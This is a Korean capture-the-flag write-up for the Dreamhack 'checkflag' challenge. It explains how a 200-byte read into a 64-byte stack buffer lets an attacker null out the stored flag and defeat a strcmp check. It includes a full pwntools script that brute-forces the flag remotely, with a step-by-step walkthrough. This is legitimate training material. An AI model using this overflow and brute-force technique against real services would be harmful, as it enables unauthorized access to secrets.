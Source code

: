 dreamhack checkflag
======================

<img width="517" height="403" alt="image" src="https://github.com/user-attachments/assets/5bc42a72-6777-417c-b5a4-d13ec9001002" />

<img width="527" height="388" alt="image" src="https://github.com/user-attachments/assets/fb310698-74e8-465b-98f2-44b8969a5cda" />

"flag" 파일에 저장된 문자열과 사용자가 입력한 문자열이 정확히 일치하는지 확인한다. 
만약 사용자 입력의 길이가 파일의 플래그 길이보다 짧거나 내용이 일치하지 않으면 "Failed!"를 출력하고 종료된다. 
올바른 플래그를 입력하면 "Correct!"를 출력한다.

프로그램 입력에서 발생할 수 있는 **버퍼 오버플로우** 를 이용하는 문제이다.

 * `read(0, v10, 0xC8uLL);`  를 보면 `v10` 버퍼의 크기는 `char v10[64];`로 선언되어 **64바이트**이다.
 * `read` 함수는 `0xC8uLL` (십진수로 200) 바이트를 `v10`에 읽어오도록 지시하고 있다.
 * 사용자가 **64바이트보다 많은 데이터를 표준 입력(stdin)으로 주면 `read` 함수는 `v10` 버퍼의 할당된 공간(64바이트)을 초과하여 스택의 인접한 메모리 영역에 데이터를 덮어쓰게** 된다.


<img width="497" height="151" alt="image" src="https://github.com/user-attachments/assets/8be3e26c-8f69-4bba-a0b1-d3eaab6be36e" />

* 여기서 입력값과 정답을 비교할때 strcmp()는 첫 번째 널문자('\0') 전까지 비교한다.
* 그런데 만약 **input에 널 문자('\0')를 65개 연속으로 입력하면** 메모리 오버플로우로 인해
  flag 버퍼의 첫 글자도 \0으로 덮인다.
* 즉 input도 "", flag도 "" → strcmp는 이 둘을 **같다** 고 인식하게 된다.


그러면 브루트포싱을 사용해 플래그를 알아낼 수 있는데

* flag 일부를 덮어쓰기 위해 입력 길이를 flag까지 넘치게 만들고
* 문자열 비교 결과가 "Correct!"인지 확인해서
* 한 글자씩 줄여가며 이 과정을 반복하며 플래그를 거꾸로 한 글자씩 알아낼 수 있다.


## 익스플로잇 코드


```python
from pwn import *

flag_len = 0
for length in range(0x3f, 0, -1):
    test_payload = b'A' * length
    payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload

    p = remote('host3.dreamhack.games', 14991)
    p.sendafter(b'flag?', payload)

    if ord('F') in p.recvuntil(b'!\n'):
        flag_len = length + 1
        p.close()
        break
    p.close()

found_flag = b''
for i in range(flag_len - 4):
    for c in range(0x20, 0x7f):
        test_payload = b'A' * (flag_len - 2 - i) + chr(c).encode() + found_flag + b'}'
        payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + b'A' * (flag_len - 2 - i)

        p = remote('host3.dreamhack.games', 14991)
        p.sendafter(b'flag?', payload)

        if ord('C') in p.recvuntil(b'!\n'):
            found_flag = chr(c).encode() + found_flag
            p.close()
            break
        p.close()

print('DH{' + found_flag.decode() + '}')
```

플래그의 길이 추정 → 플래그 내용 브루트포싱의 두 단계로 나누어 작성했다.

### flag_len 찾기 (플래그의 길이 추정)

```python
for length in range(0x3f, 0, -1):  # 0x3f = 63부터 1까지 감소
```

길이 63부터 1까지 시도하며 맞는 길이를 찾는다.

```python
test_payload = b'A' * length
payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + test_payload
```

payload 구조:
  * 입력부: A * length
  * 패딩: null (\x00)로 64바이트 채움
  * 검증부: A * length 재사용
    → 총 64바이트 입력 후 동일한 패턴을 뒤에 붙임.


```python
p.sendafter(b'flag?', payload)
if ord('F') in p.recvuntil(b'!\n'):  # 결과에 'F' 포함 시 길이 맞음
```

* 응답에 'F' ("FLAG" 또는 "FLAG format correct") 문자가 포함되면 해당 길이가 유효
* 이 때의 길이 + 1이 실제 flag 길이로 판단됨



### flag 브루트포싱

* flag는 DH{...} 형식이니까 나머지 flag_len - 4 문자만 브루트포싱하면 된다.
* 뒤에서부터 채우기 (found_flag는 뒤에서부터 쌓임) + 비교 시 "입력 + '}'" 구조로 끝이 맞는지 확인


#### 루프

```python
for i in range(flag_len - 4):  # 남은 flag 문자 수만큼 반복
    for c in range(0x20, 0x7f):  # 아스키 문자 범위 
```

```python
test_payload = b'A' * (flag_len - 2 - i) + chr(c).encode() + found_flag + b'}'
```

* 앞쪽: A로 남은 길이 채움 (공격 벡터 삽입 위치 조정)
* 중간: 현재 시도 중인 문자
* 뒤쪽: 지금까지 알아낸 flag 일부 + '}'

```python
payload = test_payload + b'\x00' * (0x40 - len(test_payload)) + b'A' * (flag_len - 2 - i)
```

전체 payload는 앞에서 만든 입력을 64바이트로 정렬하고, 뒤쪽에 비교용 A 채운다.

```python
if ord('C') in p.recvuntil(b'!\n'):  # 응답에 'C' 포함 시 해당 문자가 정답
    found_flag = chr(c).encode() + found_flag  # 찾은 문자를 앞에 붙임
```

* 'C'가 들어오면 맞는 문자로 간주하고 found_flag에 추가.
* 이렇게 하여 뒤에서부터 한 글자씩 완성됨.

-----------------------------------

<img width="432" height="57" alt="image" src="https://github.com/user-attachments/assets/ae355a17-496b-4c0b-838a-e2843ca2ded6" />



플래그를 이렇게 구할 수 있다.
